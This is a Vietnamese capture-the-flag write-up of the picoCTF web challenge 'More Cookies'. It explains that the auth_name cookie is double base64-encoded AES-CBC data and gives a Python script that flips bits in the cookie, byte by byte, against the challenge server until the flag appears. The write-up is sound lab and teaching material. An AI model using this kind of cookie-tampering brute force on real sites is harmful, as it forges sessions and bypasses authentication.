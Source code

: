 More Cookies
===
**Category:** Web

**Author:** MADSTACKS

### Description
I forgot Cookies can Be modified Client-side, so now I decided to encrypt them!

### Overview
- Đầu tiên vào trang web thì chúng thấy không có chỗ nào để input. Như tên của challange có nhắc đến cookie vì vậy mình kiểm tra cookie thì thấy có một cookie `auth_name` và value của nó như một chuỗi base64

### Solution
- Sau khi mình nhận value của `auth_name` như base64 thì mình đã mang chuỗi đó đi decode thì kết quả nhận được một chuỗi base64 khác và tiếp tục decode thì nhận được một chuỗi khá lộn xộn như được encrypt bằng thuật toán nào đó.
- Đến đây khá là stuck thì đã được người bạn cho hint về thuật toán nó encrypt là `bit flipping` và sau đó thì mình tìm hiểu và được sư phụ của mình giải thích :) thì biết rằng cookie được mã hóa theo kiểu `auth_name:base64_encode(AES_CBC(plaintext))` vì vậy chuỗi cookie ban đầu nó được base64_encode 2 lần vì trong lúc encrypt của AES nó cũng đã base64 data rồi.
- Tìm được đoạn code của bit flipping để encrypt bằng python và sau đó mình đã xor từng kí tự của nó trên chuỗi base64

##### Payload
```py
import base64
from binascii import unhexlify
import time
import requests

decoded_cookie = "SGoycDRnV3ZkbWFUaitKMDcydzh5OHVxYStyWGpsV2RXZHZiUFMySXEyRHl3S3MzM0N1Q0NLT1I5TElOQ2xFbVYrd2FJeWdFOGpTVFJEUklBMlJOeFlzc3VvajRadHFudFAyd0NUY1BjNGFGSjN3OTVGTlYzRVIvQVczNVdyT08="


def bitFlip( pos, bit, data):
    raw = base64.b64decode(data)

    list1 = list(raw)
    list1[pos] = chr(ord(list1[pos])^bit)
    raw = ''.join(list1)
    return base64.b64encode(raw)

for pos in range(128):
  print(pos)
  for bit in range(128):
    cookie_value = bitFlip(pos, bit, decoded_cookie)
    # print(cookie_value)
    cookies = {'auth_name': cookie_value}
    r = requests.get('http://mercury.picoctf.net:15614/', cookies=cookies)
    if "picoCTF{" in r.text:
      print(r.text)
      print(cookie_value)
      exit()
```
- Payload này được viết bằng python3 nhưng hàm `bitFlip` được lấy từ SOF thì là python2 nên vì vậy hãy sử dụng python2 để chạy